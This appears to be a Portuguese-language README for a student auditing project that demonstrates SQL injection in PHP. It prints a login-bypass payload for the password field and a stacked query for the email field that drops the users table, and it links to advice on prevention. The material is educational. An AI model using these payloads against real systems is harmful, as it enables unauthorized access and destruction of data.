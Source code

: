 # sql injection
Trabalho desenvolvido para a disciplina de auditoria de sistemas - Exemplo de sql injection em php.

## Equipe
- Fellipe Geraldo
- Jefferson
- Mateus Antunes
- Matheus Honorato
- Wesley Rodrigues

### executar no input password
' or '1'='1

### executar em input e-mail (apaga a tabela users)

teste@teste.com'; DROP TABLE users;


### Como protejer : http://www.digitaldev.com.br/2011/09/22/sql-injection-como-evitar-esse-tipo-de-ataque-em-paginas-php/
